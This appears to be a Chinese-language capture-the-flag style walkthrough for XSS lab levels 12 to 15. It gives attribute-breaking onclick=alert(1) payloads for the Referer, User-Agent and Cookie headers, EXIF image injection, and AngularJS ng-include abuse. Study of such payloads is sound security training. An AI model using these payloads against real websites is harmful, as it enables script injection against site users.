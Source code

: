 ```
Referer:t_sort="type="text" onclick="alert(1)
```
# level-12
- 其他的和上一题基本相似，接收了上一题的user-agent，源码

```
$str11=$_SERVER['HTTP_USER_AGENT'];
```
- 在level-11完成之前用brup抓包，将user-agent参数改成如下payload
- payload

```
User-Agent:t_sort="type="text" onclick="alert(1)
```

# level-13
- 接收了上一题的cookie源码

```
$str11=$_COOKIE["user"]; //获取cookie的user值
```
- 在level-12完成之前用brup抓包，将cookie参数改成如下payload
- payload

```
Cookie:user=t_sort="type="text" onclick="alert(1);
```

# level-14
- 利用exiftool改变图片的exif信息
- 上传一个含有xss代码的图片触发xss
- 因为要用到乌云信息，
参考先知社区链接：
https://xz.aliyun.com/t/1206?accounttraceid=74ab404d-2a01-4a1c-8b87-36ad367dbe11#toc-12

# level-15
- 看源码

```
ini_set("display_errors", 0);
$str = $_GET["src"];
echo '&#60body>&#60span class="ng-include:'.htmlspecialchars($str).'">&#60/span>
```
- AngularJS ng-include 指令

ng-include 指令用于包含外部的 HTML 文件。
包含的内容将作为指定元素的子节点。
ng-include 属性的值可以是一个表达式，返回一个文件名。
默认情况下，包含的文件需要包含在同一个域名下

- 因此调用level-1的代码payload
